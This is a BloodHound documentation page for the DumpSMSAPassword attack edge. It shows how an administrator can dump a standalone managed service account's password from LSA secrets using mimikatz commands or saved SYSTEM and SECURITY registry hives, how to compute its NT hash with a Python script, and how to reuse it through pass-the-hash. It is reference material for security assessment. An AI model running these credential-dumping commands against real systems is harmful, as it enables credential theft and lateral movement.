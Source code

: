 ---
title: DumpSMSAPassword
description: "A computer with this indicates that a Standalone Managed Service Account (sMSA) is installed on it."
---

<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>


An actor with administrative privileges on the computer can retrieve the sMSA’s password by dumping LSA secrets.

## Abuse Info

From an elevated command prompt on the computer where the sMSA resides, run mimikatz then execute the following commands:

```bash
privilege::debug
token::elevate
lsadump::secrets
```

In the output, find _\_SC\_\{262E99C9-6160-4871-ACEC-4E61736B6F21}__ suffixed by the name of the targeted sMSA. The next line contains _cur/hex :_ followed with the sMSA’s password hex-encoded.

To use this password, its NT hash must be calculated. This can be done using a small python script:

```bash
# nt.py
import sys, hashlib

pw_hex = sys.argv[1]
nt_hash = hashlib.new('md4', bytes.fromhex(pw_hex)).hexdigest()

print(nt_hash)
```

Execute it like so:


```bash
python3 nt.py 35f3e1713d61...
```

To authenticate as the sMSA, leverage pass-the-hash.

Alternatively, to avoid executing mimikatz on the host, you can save a copy of the _SYSTEM_ and _SECURITY_ registry hives from an elevated prompt:


```bash
reg save HKLM\SYSTEM %temp%\SYSTEM & reg save HKLM\SECURITY %temp%\SECURITY
```

Transfer the files named _SYSTEM_ and _SECURITY_ that were saved at _%temp%_ to another computer where mimikatz can be safely executed.

On this other computer, run mimikatz from a command prompt then execute the following command to obtain the hex-encoded password:

```bash
lsadump::secrets /system:C:\path\to\file\SYSTEM /security:C:\path\to\file\SECURITY
```

## Opsec Considerations

Access to registry hives can be monitored and alerted via event ID 4656 (A handle to an object was requested).

## Edge Schema

Source: [Computer](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/nodes/computer)  
Destination: [User](https://github.com/SpecterOps/bloodhound-docs/blob/main//resources/nodes/user)   
Traversable: **Yes**   

## References

* [https://simondotsh.com/infosec/2022/12/12/assessing-smsa.html](https://simondotsh.com/infosec/2022/12/12/assessing-smsa.html)
* [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets)
* [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)

